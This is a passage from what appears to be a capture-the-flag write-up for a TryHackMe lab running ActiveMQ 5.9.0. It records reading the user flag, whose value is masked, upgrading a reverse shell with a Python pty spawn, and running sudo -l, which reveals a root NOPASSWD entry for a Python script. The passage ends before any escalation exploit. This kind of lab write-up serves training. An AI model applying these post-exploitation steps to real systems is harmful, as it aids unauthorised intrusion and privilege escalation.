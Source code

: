 ### Initial Shell Access
Upon connecting, explored the filesystem and located the user flag.

**Commands**:
```bash
ls
cat flag.txt
```

**Output**:
```
LICENSE
NOTICE
README.txt
activemq-all-5.9.0.jar
bin
chat.py
conf
data
flag.txt
lib
start.sh
subscribe.py
tmp
webapps
THM{***********}
```

**User Flag**: `THM{***********}`

### Stabilize Shell
Upgraded the shell for better interaction.

**Commands**:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z to background
stty raw -echo; fg
export TERM=xterm-256color
```

## Privilege Escalation

### Check Sudo Permissions
Checked for sudo privileges on the activemq user.

**Command**:
```bash
sudo -l
```

**Output**:
```
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```
